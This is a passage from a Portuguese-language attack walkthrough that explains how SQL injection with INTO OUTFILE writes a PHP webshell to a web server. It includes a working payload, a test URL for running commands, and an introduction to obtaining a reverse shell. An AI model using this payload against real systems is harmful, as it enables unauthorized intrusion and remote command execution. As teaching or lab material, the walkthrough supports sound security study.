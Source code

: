 
#### c) `into outfile "/var/www/html/includes/cmd.php"`

- Isso diz ao banco de dados para **salvar o conteúdo da linha** (a webshell) **diretamente em um arquivo** no disco do servidor.
    
- Esse recurso é permitido **se o banco tiver permissão de escrita** no caminho fornecido.
    

#### d) `#`

- Comentário do MySQL para ignorar o restante da query original.
    

---

## O que permitiu isso do lado do servidor?

1. **SQLi funcional e não filtrada.**
    
2. **Permissão do usuário do MySQL para escrever arquivos com `INTO OUTFILE`.**
    
3. **Diretório `/var/www/html/includes/` acessível e com permissão de escrita.**
    
4. **Servidor web permite execução de arquivos `.php` nesse caminho.**
    

---

## Como foi identificado que esse diretório era gravável?

Geralmente o atacante:

1. **Testa caminhos comuns manualmente** ou usando wordlists.
    
2. Usa comandos como:
    

```sql
'union select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/test.php"# 
```

3. Depois tenta acessar via navegador:
    

```
http://target-ip/test.php?cmd=id
```

4. Quando funciona, repete a operação com o caminho definitivo (ex: `/includes/`).
    

---

 Etapa: Conquistando uma Reverse Shell via Webshell PHP

Depois de conseguir **escrever a webshell `cmd.php`** no servidor através da **injeção SQL**, o objetivo agora é obter uma **conexão reversa (reverse shell)** — ou seja, fazer com que o servidor conecte de volta na sua máquina, te dando acesso ao shell interativo.

---
